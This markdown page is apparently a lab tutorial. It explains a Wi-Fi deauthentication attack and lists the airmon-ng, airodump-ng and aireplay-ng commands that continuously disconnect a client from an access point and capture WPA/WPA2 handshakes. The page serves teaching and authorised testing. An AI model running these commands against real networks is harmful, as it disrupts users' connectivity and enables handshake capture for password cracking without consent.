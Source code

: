 # Deauthentication Attack (WEP/WPA/WPA2)

This attack sends disassocate packets to one or more clients which are currently associated with a particular access point. Disassociating clients can be done for a number of reasons:

* Recovering a hidden ESSID. This is an ESSID which is not being broadcast. Another term for this is “cloaked”.
* Capturing WPA/WPA2 handshakes by forcing clients to reauthenticate
* Generate ARP requests (Windows clients sometimes flush their ARP cache when disconnected)

Of course, this attack is totally useless if there are no associated wireless client or on fake authentications.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least one client must be associated with the AP
* No need to fakeauth, the first deauth will set AUTH to OPN

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the deauthentication attack
sudo aireplay-ng --deauth 0 -a $BSSID -c $CLIENT $INTERFACE
```
*Note: Run ping on the client, pinging the AP, to see ping freeze while running the deauth attack.*

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

